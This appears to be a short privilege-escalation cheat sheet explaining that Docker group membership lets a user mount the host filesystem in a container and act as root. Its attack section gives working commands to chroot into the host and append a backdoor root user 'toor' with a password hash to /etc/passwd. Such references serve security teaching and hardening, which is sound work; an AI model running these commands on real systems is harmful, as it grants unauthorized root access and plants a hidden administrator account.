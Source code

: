 ## Docker Group

The **docker** group controls access to and management of Docker containers on the system. This can represent a potential privilege escalation risk, as it allows an attacker to access the containers and their data, and even mount host volumes in Docker with full permissions.

## Attack

An attacker could mount the original host filesystem within a Docker instance, allowing them to modify the entire filesystem as root from within the container.

```bash
# List Docker images
docker image

# Shell in Docker with the host filesystem mounted
docker run -it --rm -v /:/mnt [imagename] chroot /mnt bash

# Add a new root user
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /etc/passwd
```
